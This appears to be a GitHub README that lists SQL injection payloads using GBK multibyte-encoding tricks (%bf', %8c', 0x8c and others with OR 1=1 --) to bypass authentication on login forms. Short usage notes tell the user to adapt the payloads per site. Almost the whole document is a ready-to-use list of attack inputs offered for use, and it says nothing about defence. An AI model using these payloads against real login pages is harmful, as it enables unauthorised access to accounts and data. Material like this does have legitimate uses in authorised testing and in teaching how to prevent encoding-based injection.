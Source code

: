 ## SQLi_GBK-Encode_Payloads

##### Note: In all these payloads, we can put user or not, but the space after "--" characters must be observed and we can use other command characters instead of "--" characters.

##### Note2:In some sites, you have to be creative and fill in the password to get the "True" answer

### Payloads:

    Payload: <Username>%bf' OR 1=1 -- &password=
    Payload: <Username>%aa' OR 1=1-- &password=
    Payload: <Username> %af' OR 1=1-- &password=
    Payload: <Username>%a8' OR 1=1--  &password=
    Payload: <Username>%8c' OR 1=1--  &password=
    Payload: <Username>0x8c╘' OR 1=1; -- &password=
    Payload: <Username>%bf%5c' OR 1=1; -- &password=
    Payload: <Username>呵’ or 1=1 -- &password=
    Payload: <Username>¿' or 1=1 -- &password=
